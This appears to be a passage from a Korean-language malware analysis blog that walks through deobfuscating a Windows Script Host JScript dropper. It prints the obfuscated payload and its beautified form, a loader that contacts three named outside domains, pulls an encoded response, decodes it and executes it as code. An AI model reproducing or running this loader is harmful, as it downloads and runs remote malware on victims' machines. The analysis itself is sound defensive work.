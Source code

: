 ```javascript
```

line 4에서 GetSpecialFolder를 통해 로컬 PC의 특정 디렉토리에 접근하는 것을 알 수 있다.

해당 경로에 Hv129167.tmp가 없으면 만들어 준다.

마지막 두줄에서 **FQ96[3]**에 난독화된 코드를 넘겨 Execute Code하는것을 볼 수 있다.

```javascript
    FQ96[5 - 2](fW4('tast.u6s8 r=W=(=  f2i0 0})  ;{e svlaarf  Snyr4u3t e=r  W{r)8e6(.hrcetsapco}n s;e)T(edxnte;s .i6f8 r(W( S;y)4e3s.lianfd e,x4O4fY(y\"+@\"\"=+iynYu4b4g+e\"e@x\"l,t h0h)e)?=\"=+-\'1p)h p{. mWuSrcorfi/p\'t+.]s5l5eDejp[(4282a2Z2+2\')/;/ :}p tetlhs\'e  ,{\' TSEyG4\'3( n=e pSoy.4638.rrWe p{lyarcte (;\")@0\"3++y0Y74,42+(\"]@\"\"r,t\"s\"b)u;s \"v[a)r( gfnSi8r5t S=o tS.y)4(3m.ordenpalra.chet(a/M( \\=d {424}Y)y/ g;,) \'fPuTnTcHtLiMoXnr e(vSrde9S7.)2 L{M XrSeMt\'u(rtnc eSjtbrOientga.efrrCo.mtCphiarrcCSoWd e=( p6a8rrsWe I{n t)(3S d<9 75,51D0j)(+ 3e0l)i;h w} );;0  F=Q 9565[D3j] (;f]S\"8m5o)c(.)o;d -WdSncar-iepbt..wQwuwi\"t,(\")e;d .}j 4}o .ewlwswe\" ,{\" lWpS.cdrcilp-tm.esjlaeneypw(.2t2s2e2t2.)w;w w}\" [j D=5 54+8+a;Z}'))(fo32);
    tcgmac = FQ96;
```

파라메타로 넘긴 코드는 다음과 같다.

```javascript
Za84 = ["www.test.wynajem-lcd.pl","www.o4j.de","www.be-and-do.com"]; jD55 = 0; while (jD55 < 3) { Wr86 = WScript.CreateObject('MSXML2.ServerXMLHTTP'); yY44 = Math.random().toString()["substr"](2,70+30); try{ Wr86.open('GET', 'http://'+Za84[jD55]+'/forum.php'+"?ehhtlxeegbuni="+yY44, false); Wr86.send(); }catch(e){ return false; } if (Wr86.status === 200) { var Sy43 = Wr86.responseText; if ((Sy43.indexOf("@"+yY44+"@", 0))==-1) { WScript.sleep(22222); } else { Sy43 = Sy43.replace("@"+yY44+"@",""); var fS85 = Sy43.replace(/(\d{2})/g, function (Sd97) { return String.fromCharCode(parseInt(Sd97,10)+30); }); FQ96[3](fS85)(); WScript.Quit(); } } else { WScript.sleep(22222); } jD55++;}
```

해당코드 또한  [Online JavaScript Beautifier](https://beautifier.io/)를 통해 코드를 1차 정리 해 주겠다.

```javascript
Za84 = ["www.test.wynajem-lcd.pl", "www.o4j.de", "www.be-and-do.com"];
jD55 = 0;
while (jD55 < 3) {
    Wr86 = WScript.CreateObject('MSXML2.ServerXMLHTTP');
    yY44 = Math.random().toString()["substr"](2, 70 + 30);
    try {
        Wr86.open('GET', 'http://' + Za84[jD55] + '/forum.php' + "?ehhtlxeegbuni=" + yY44, false);
        Wr86.send();
    } catch (e) {
        return false;
    }
    if (Wr86.status === 200) {
        var Sy43 = Wr86.responseText;
        if ((Sy43.indexOf("@" + yY44 + "@", 0)) == -1) {
            WScript.sleep(22222);
        } else {
            Sy43 = Sy43.replace("@" + yY44 + "@", "");
            var fS85 = Sy43.replace(/(\d{2})/g, function(Sd97) {
                return String.fromCharCode(parseInt(Sd97, 10) + 30);
            });
            FQ96[3](fS85)();
            WScript.Quit();
        }
    } else {
        WScript.sleep(22222);
    }
    jD55++;
}
```
